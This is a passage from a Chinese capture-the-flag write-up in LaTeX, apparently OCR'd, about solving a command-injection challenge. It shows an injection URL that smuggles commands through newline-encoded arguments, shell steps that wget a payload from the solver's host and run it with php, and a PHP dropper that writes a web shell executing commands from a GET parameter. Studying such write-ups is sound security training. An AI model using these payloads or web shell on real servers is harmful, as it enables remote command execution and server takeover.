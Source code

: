 \documentclass[a4paper,UTF8]{ctexart}
\begin{document}
http://52.68.245.164?args[]=a\%0A\&args[]=touch\&args[]cat\\

于是在我们的网站目录下出现了cat文件，证明我们的想法正确。

\subsection{第二步：下载木马并执行}

执行的shell命令如下：\\
code{mkdir exploit\\cd exploit\\
wget 92775836(这个数字是题解队伍的长整形ip地址，因为不能输入"."，因此要这样输入ip地址)\\
tar cvf archived exploit（打包命令）\\
php archived}

下载的exploit如下：

\begin{verbatim}
<?php
file_put_contents('shell.php', '
    <?php
    header("Content-Type: text/plain");
    print shell_exec($_GET["cmd"]);
    ?>
');
?>
\end{verbatim}


\subsection{第三步：后续命令}
访问木马php网页shell.php，使用get传递cmd命令，可以直接看到shell返回的输出。

最后在服务器的根目录下发现了Flag：

\section{致谢}

感谢ISpamAndHex, Plaid Parliament of Pwning, p4队伍的题解！本人受益良多。
\end{document}
